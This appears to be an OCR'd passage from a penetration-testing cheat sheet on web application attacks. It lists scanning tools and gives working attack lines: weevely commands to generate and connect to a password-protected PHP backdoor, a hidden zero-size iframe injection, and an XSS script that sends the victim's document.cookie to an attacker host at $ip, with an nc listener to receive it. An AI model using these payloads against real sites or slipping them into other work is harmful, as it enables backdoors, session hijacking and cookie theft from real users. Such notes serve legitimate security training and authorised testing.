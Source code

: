     -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection  
        <iframe SRC="http://$ip/report" height = "0" width
        ="0"></iframe>

    -   Stealing Cookies and Session Information  
        <script>  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>  
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

